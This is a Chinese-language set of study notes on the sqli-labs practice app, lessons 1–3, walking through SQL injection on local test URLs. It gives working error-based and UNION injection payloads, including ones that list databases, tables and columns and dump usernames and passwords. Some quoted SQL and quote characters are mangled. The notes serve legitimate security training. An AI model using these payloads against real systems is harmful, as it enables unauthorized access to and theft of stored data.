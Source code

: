 ###
sqli-labs 学习笔记

##
lession-1  GET-Error based-single quotes String

我们可以在http://127.0.0.1/sqllib/Less-5/?id=1后面直接添加一个 '
我们可以看到提交到sql中的1'在经过sql语句构造后形成 '1'' LIMIT 0,1，多加了一个 ' 。这种方式就是从错误信息中得到我们所需要的信息，那我们接下来想如何将多余的 ' 去掉呢
尝试 'or 1=1--+
此时构造的sql语句就成了
Select ****** where id='1'or 1=1--+' LIMIT 0,1

最后从源代码中分析下为什么会造成注入？
Sql语句为sql="SELECT∗FROMusersWHEREid=′id' LIMIT 0,1";
Id参数在拼接sql语句时，未对id进行任何的过滤等操作，所以当提交 'or 1=1--+，直接构造的sql语句就是
SELECT * FROM users WHERE id='1'or 1=1--+ LIMIT 0,1
这条语句因or 1=1 所以为永恒真。

union联合注入，union的作用是将两个sql语句进行联合。Union可以从下面的例子中可以看出，强调一点：union前后的两个sql语句的选择列数要相同才可以。Union all与union 的区别是增加了去重的功能。我们这里根据上述background的知识，进行information_schema 知识的应用。
http://127.0.0.1/sqllib/Less-1/?id=-1'union select 1,2--+
当id的数据在数据库中不存在时，（此时我们可以id=-1，两个sql语句进行联合操作时，当前一个语句选择的内容为空，我们这里就将后面的语句的内容显示出来）此处前台页面返回了我们构造的union 的数据。

爆数据库
http://127.0.0.1/sqllib/Less-1/?id=-1%27union%20select%201,group_concat(schema_name),3%20from%20information_schema.schemata--+
此时的sql语句为SELECT * FROM users WHERE id='-1'union select 1,group_concat(schema_name),3 from information_schema.schemata--+ LIMIT 0,1

爆security数据库的数据表
http://127.0.0.1/sqllib/Less-1/?id=-1%27union%20select%201,group_concat(table_name),3%20from%20information_schema.tables%20where%20table_schema=%27security%27--+
此时的sql语句为SELECT * FROM users WHERE id='-1'union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security'--+ LIMIT 0,1

爆users表的列
http://127.0.0.1/sqllib/Less-1/?id=-1%27union%20select%201,group_concat(column_name),3%20from%20information_schema.columns%20where%20table_name=%27users%27--+
此时的sql语句为SELECT * FROM users WHERE id='-1'union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'--+ LIMIT 0,1

爆数据
http://127.0.0.1/sqllib/Less-1/?id=-1%27union%20select%201,username,password%20from%20users%20where%20id=2--+
此时的sql语句为SELECT * FROM users WHERE id='-1'union select 1,username,password from users where id=2--+ LIMIT 0,1

##
lession-2  GET-Error based-Intiger based

我们又得到了一个Mysql返回的错误，提示我们语法错误。
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' LIMIT 0,1′ at line 1
现在执行的查询语句如下：
Select * from TABLE where id = 1' ;
所以这里的奇数个单引号破坏了查询，导致抛出错误。
因此我们得出的结果是，查询代码使用了整数。
Select * from TABLE where id = (some integer value);
现在，从开发者的视角来看，为了对这样的错误采取保护措施，我们可以注释掉剩余的查询：
http://localhost/sqli-labs/Less-2/?id=1–-+

源代码中可以分析到SQL语句为下：
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
对id没有经过处理

可以成功注入的有：
or 1=1
or 1=1 --+
其余的payload与less1中一直，只需要将less1中的 ' 去掉即可。

##
lession-3  GET-Error based-single quotes with twist

我们使用?id='注入代码后，我们得到像这样的一个错误：
MySQL server version for the right syntax to use near "") LIMIT 0,1′ at line 1

这里它意味着，开发者使用的查询是：
Select login_name, select password from table where id= ('our input here')
所以我们再用这样的代码来进行注入：
?id=1′) –-+

可以成功注入的有：
') or '1'=('1'
) or 1=1 --+
其余的payload与less1中一直，只需要将less1中的 ' 添加） 即')



